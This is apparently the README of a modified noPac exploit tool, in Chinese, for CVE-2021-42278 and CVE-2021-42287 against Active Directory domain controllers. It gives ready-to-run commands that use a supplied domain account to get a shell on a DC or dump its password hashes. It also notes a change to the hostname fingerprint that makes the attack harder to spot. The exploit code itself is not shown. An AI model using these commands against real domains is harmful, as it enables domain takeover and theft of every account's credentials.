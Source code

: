 # noPac
Exploiting CVE-2021-42278 and CVE-2021-42287
原项目noPac在实现上可能有点问题，导致在本地没有打通，于是参考sam-the-admin项目进行修改。

# 使用
```
pip3 install -r requirements.txt
# GetShell
python3 exp.py "domain/Username:Passw0rd" -dc-ip 192.168.0.254 -shell
# DumpHash
python3 exp.py "domain/Username:Passw0rd" -dc-ip 192.168.0.254 -dump
```


# 修改
- 修改了原版作者在Kali下的smbexec等执行路径问题
- 修改模拟上线主机名特征


# 参考
https://github.com/cube0x0/noPac <br>
https://github.com/WazeHell/sam-the-admin
